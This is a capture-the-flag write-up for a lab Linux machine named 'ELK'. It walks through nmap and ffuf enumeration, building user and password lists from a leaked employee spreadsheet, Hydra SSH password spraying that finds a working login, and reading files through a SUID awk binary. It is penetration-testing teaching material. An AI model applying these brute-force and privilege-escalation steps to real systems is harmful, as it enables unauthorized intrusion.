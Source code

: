 ```yaml
---
layout: post
title: "CTF7E4 - ELK Machine"
categories: CTF7E4
---
```


## Summary
&nbsp;
This machine was more about enumeration and bruteforcing, such as finding new subdomains that are not visible by default on ssl cert and ssh spraying using different tools for bruteforcing such as THC-Hydra. The last step for privilege escalation it's about abusing a native linux binary which had SUID permissions.
&nbsp;

- **OS:** Linux
- **IP:** 10.10.10.11
- **Difficulty:** Medium

## Steps
&nbsp;

In order to hack this machine, we should know what ports are open and we can do that by using a popular tool such as Nmap.

> **→ nmap -sC -sV -oN scan 10.10.10.11**{: style="color: red"}

**-sC** Use default scripts
**-sV** Probe open ports to determine service/version info
**-oN** Save output in nmap format.
&nbsp;

```
Nmap scan report for staging.elk.xor (10.10.10.11)
Host is up (0.028s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:2c:29:d5:e5:86:27:3a:d9:7c:32:88:03:71:db:d5 (RSA)
|   256 0f:cb:76:02:b6:21:28:49:cb:a2:ea:8a:cf:db:dd:98 (ECDSA)
|_  256 83:80:4d:27:13:7f:79:27:79:10:2d:ac:c3:af:91:78 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=elk.xor/organizationName=XOR CyberCommunity/stateOrProvinceName=Some-State/countryName=AL
| Not valid before: 2020-01-12T00:57:06
|_Not valid after:  2021-01-11T00:57:06
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
&nbsp;
&nbsp;

From the nmap scan output, we can see that there is a web server running on port 80 and 443. Browsing to https://10.10.10.11/ and looking at the certificate info, we can identify that port 443 is configured to run on **elk.xor** domain.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk1.png){:.images}
&nbsp;

Running files and directory discovery tools resulted in nothing so we started to bruteforce new subdomains. We can do that using differnet tools such as gobuster, wfuzz, ffuf, etc. I prefer ffuf for it's speed and available options to filter content. While bruteforcing subdomains a lot of them returned with the same page size (10918), so to filter the output we can use **\--fs 10918**.

> **→ ffuf -c -u 'http://10.10.10.11' -w ~/tools/SecLists/Discovery/DNS/shubs-subdomains.txt -H "Host: FUZZ.elk.xor" -fs 10918**{: style="color: red"}

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk2.png){:.images}
&nbsp;

New subdomain staging.elk.xor was found. To access this subdomain we should add it to our /etc/hosts file.
> **→ echo '10.10.10.11 staging.elk.xor' >> /etc/hosts**{: style="color: red"}

The message on this subdomain was the same but if we looked at the source code we saw a html commented line as seen in the screenshot below.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk3.png){:.images}
&nbsp;

In the main.js file there was a strange directory and file named **xorsecretdocuments/employee.xlsx**

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk4.png){:.images}
&nbsp;

Since **.xlsx** is a format for Microsoft Excel files, we can use an online Excel file viewer.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk5.png){:.images}
&nbsp;

To use this file as a combo list, we can first convert it to a csv file so we can easily sort fileds such as users and passwords.

> **→ cat employee.csv \| cut -d ',' -f 1 >> users.txt**{: style="color: red"}
> **→ cat employee.csv \| cut -d ',' -f 2 >> passwords.txt**{: style="color: red"}

Then we can continue with ssh passwords spraying using Hydra. Some times it's necessary to use different tools such as ncrack, patator or msfconsole auxiliary modules for ssh, to avoid false positives. 

> **→ hydra -L users.txt -P passwords.txt ssh://10.10.10.11 -t 4**{: style="color: red"}

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk6.png){:.images}
&nbsp;

```
[DATA] attacking ssh://10.10.10.11:22/
[22][ssh] host: 10.10.10.11   login: crista   password: alejandro
1 of 1 target successfully completed, 1 valid password found
```

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk7.png){:.images}
&nbsp;

First things that I like to check for privilege escalation is running **'sudo -l'** command to see if current user has permissions to run a specific command without password as root.

> **crista@elk:~$ sudo -l**{: style="color: red"}
[sudo] password for crista: ^C

> **crista@elk:~$ cat /etc/group | grep sudo**{: style="color: red"}
sudo:x:27:

Then proceed to finding SUID binaries, if there are any. Now it's much easier when you find one because there exists a great [website](https://gtfobins.github.io) where you can find different PoCs for native binaries.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk8.png){:.images}
&nbsp;

In this machine, **awk** has SUID permissions and can be abused in different ways. We can first try to spawn a shell with root privileges but in our case it didn't work, so we use its file reading function.
&nbsp;

```bash
LFILE=file_to_read
awk '//' "$LFILE"
```

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk9.png){:.images}
&nbsp;

&nbsp;
I hope you had fun solving this machine and learning something new.